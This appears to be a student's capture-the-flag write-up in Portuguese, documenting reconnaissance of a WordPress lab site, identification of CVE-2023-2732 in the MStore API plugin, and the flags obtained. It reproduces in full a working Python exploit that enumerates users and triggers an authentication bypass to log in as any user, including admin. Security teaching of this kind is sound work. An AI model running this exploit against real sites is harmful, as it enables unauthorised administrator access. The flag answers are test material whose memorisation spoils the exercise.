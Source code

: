 # CTF - Semana 3

**Objetivo**
Fazer login com uma conta de administrador

## 1. Reconhecimento
**Informação obtida através da navegação na aplicação web**

![alt text](../img/ctf3-img1.png)

URL: http://143.47.40.175:5001/product/wordpress-hosting/  
  
**Possíveis utilizadores:**
- admin
- Orval Sanford

## 2. Pesquisa por Vulnerabilidades
Tipo de vulnerabilidade desejável: authentication bypass

- Wordpress 5.8.1: sem vulnerabilidades fáceis de explorar, sobretudo SQL injection;
- MStore API 3.9.0: **existe uma vulnerabilidade de authentication bypass que afeta esta versão**;
- WooCommerce plugin 5.7.1: não foram encontradas vulnerabilidades;
- Booster for WooCommerce plugin 5.4.4: não foram encontradas vulnerabilidades. De realçar a vulnerabilidade de authentication bypass que existia até à versão 5.4.3 (imediatamente anterior à da aplicação web).

**Vulnerabilidade encontrada:**  

ID: CVE-2023-2732  
Descrição: The MStore API plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 3.9.2. This is due to insufficient verification on the user being supplied during the add listing REST API request through the plugin. This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, if they have access to the user id.


**FLAG 1:**  
flag{CVE-2023-2732}

## 3. Exploit

Está disponível um [exploit](https://github.com/RandomRobbieBF/CVE-2023-2732/blob/main/mstore-api.py) para a vulnerabilidade encontrada:

``` py
import os
import click
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
session = requests.Session()



def version_check(wordpress_url):
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
    plugin_url = ""+wordpress_url+"/wp-content/plugins/mstore-api/readme.txt"
    response = requests.get(plugin_url, headers=headers,verify=False,timeout=30)
    if response.status_code == 200:
        content = response.text

        version_line = next((line for line in content.split('\n') if line.startswith('Stable tag:')), None)
        if version_line:
            version = version_line.split(':')[1].strip()
            if version >= '3.9.3':
                print("The plugin version is 3.9.3 or above.")
                exit()
            else:
                print("The plugin version is below 3.9.3.")
                return True
        else:
            print("Failed to find the version information in the readme.txt file.")
            exit()
    else:
        print("Failed to fetch the readme.txt file.")
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/", headers=headers,verify=False,timeout=30)
        if "add-listing" in response.text and "get-nearby-listings" in response.text:
           print("Was unable to read readme.txt but plugin might be installed")
           return True
        else:
           print("Plugin not installed")
           exit()

def fetch_usernames_rest_api(wordpress_url):
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
    response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
    if response.status_code == 200:
        users = response.json()
        return users
    else:
        print(f"Failed to fetch usernames using REST API. Error: {response.text}")
        return []

def select_user(users):
    click.echo("Select a user:")
    for user in users:
        click.echo(f"{user['id']}. {user['name']}")

    user_id = click.prompt("Enter the user ID", type=int)
    selected_user = next((user for user in users if user['id'] == user_id), None)
    if selected_user:
        return selected_user
    else:
        click.echo("Invalid user ID.")
        return None

def sendem(user_id, username):
    # Set up the request headers
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
    # Send the request
    response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
    cookies = requests.utils.dict_from_cookiejar(response.cookies)
    # Check if 'wordpress_logged_in_' cookie is present
    if any(cookie.startswith('wordpress_logged_in_') for cookie in cookies):
       print("\n\n")
       print("Congratulations a vulnerable system has been found.\n")
       print("How to Exploit:\n")
       print("Visit the following url: "+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"")
       print("Visit  "+wordpress_url+" and you should be logged in as the user you have chosen.")
    elif response.status_code == 403 and "cf-cookie-error" in response.text:
        print("Sorry, Cloudflare is blocking us.")
    else:
        print("Sorry it does not appear and cookies have been returned.")
        print("Status Code: "+str(response.status_code)+"")
        for line in response.headers:
            line_parts = line.split(": ")
            print(f"    {line_parts[0]}: {line_parts[1]}")

    


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", required=True, help="URL of the WordPress site")
    args = parser.parse_args()
    wordpress_url = args.url
    version_check(wordpress_url)
    users = fetch_usernames_rest_api(wordpress_url)
    if users:
        selected_user = select_user(users)
        if selected_user:
            user_id = selected_user['id']
            username = selected_user['name']
            sendem(user_id, username)
```

De acordo com o README do repositório do exploit, é possível aceder a um URL na aplicação web de modo a poder fazer login com uma conta qualquer.

![alt text](../img/ctf3-img2.png)

Podemos confirmar que a aplicação web é vulnerável ao correr o script:

![alt text](../img/ctf3-img3.png)

## 4. Exploração da vulnerabilidade

Seguindo os passos descritos no exploit, ao visitar o URL apresentado, podemos entrar no site já como administradores. Temos de conhecer os possíveis utilizadores e, neste caso, usámos o utilizador 'admin', por evidenciar ser uma conta de administrador.

A aplicação web é mostrada com outro aspeto:

![alt text](../img/ctf3-img4.png)

A partir do post privado, obtemos a flag pretendida.

**FLAG 2:**  
flag{byebye}